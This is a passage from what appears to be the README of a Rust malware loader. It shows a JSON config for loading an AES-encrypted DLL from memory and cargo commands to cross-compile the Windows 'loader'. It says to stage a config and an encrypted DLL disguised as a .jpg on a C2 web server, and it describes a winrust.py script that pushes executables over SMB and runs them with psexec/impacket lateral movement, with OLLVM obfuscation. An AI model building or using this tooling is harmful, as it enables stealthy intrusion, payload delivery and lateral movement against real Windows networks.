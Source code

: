 As you see, the memory number choosen is precise by memory_nb parameter :

```
  "payloads": [
    {
      "DllFromMemory": {
        "link": {
          "MEMORY": {
            "memory_nb": 1,
            "dataoperation": [
              {
                "AES": {
```

Then, you should compile the code with the `--features mem1` compilation option

```
cargo build --target x86_64-pc-windows-gnu --bin "loader" --features mem1
```

Or with winrust, you should use the `--mem1` option:

```
winrust loader --debug --mem1
```

## 5. Deploy config and payload

This part is up to you.
you should deploy config file and payload manually in the infrastructure (web serveur/c2, etC...)
It's not part of the project today. Wait next release 2.0 for this.

For example, in the previous config sample shown in this doc, you should put a first reload config here :
https://kaboum.xyz/artdonjon/gobelin.html and an encrypted DLL here : https://kaboum.xyz/artdonjon/donjon_dll.jpg



# Side scripts

This part define side script and commands to help you 

##  Winrust

`winrust.py`, is a script that could help you to easily:
- cross-compile from linux to Windows
- deploy exe with SMB into a Windows host
- and run it with psexec.py (or other impacket lateral movement script)

Moreover, this script help you for debugging by adding output, perform OLLVM compilation and add payload memory in the laoder at compile time.

```
└─$ winrust --help
usage: winrust [-h] [--mem1] [--mem2] [--mem3] [--mem4] [-exec_target EXEC_TARGET] [-exec_method EXEC_METHOD] [--ollvm]
               [--release] [--log] [--verbose]
               bin

Tools to help from Linux to compile rust code Windows and then exec it into a Windows host by uploading with SMB + use some some
impacket LateralMovement techniques

positional arguments:
  bin                   target bin

options:
```